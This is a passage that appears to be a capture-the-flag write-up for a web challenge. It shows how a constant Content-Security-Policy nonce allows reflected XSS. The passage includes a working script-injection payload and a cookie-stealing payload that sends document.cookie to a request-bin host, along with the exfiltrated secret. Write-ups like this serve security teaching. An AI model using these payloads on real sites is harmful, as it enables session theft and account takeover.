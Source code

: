 ```js

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
})
```

It looks like a NONCE is used to ensure that any script that runs is supposed to run. If this was implemented properly, a different nonce would be used everytime (meaning it would be generated and passed into the template), however the nonce in this challenge is constant.

We can use the source code to grab the nonce of the script within the template.

```
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
```

Now we can recraft our payload to look like this:


```
?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==" >alert(1)</script>
```

This triggers XSS! Cool.

Now let's write code to grab cookies using a request bin.

```
?name=<script nonce="LRGWAXOY98Es0zz0QOVmag=="> document.location='https://en3x93cvkhcs1.x.pipedream.net//' + document.cookie </script>
```

So the url is 

```
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce%3D%22LRGWAXOY98Es0zz0QOVmag%3D%3D%22%3E%20document.location%3D%27https%3A%2F%2Fen3x93cvkhcs1.x.pipedream.net%2F%2F%27%20%2B%20document.cookie%20%3C%2Fscript%3E
```

Let's send this to the admin bot.

We get this request:

```
//secret=4b36b1b8e47f761263796b1defd80745
```

Looking at the code, we see this interesting line.

```
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```

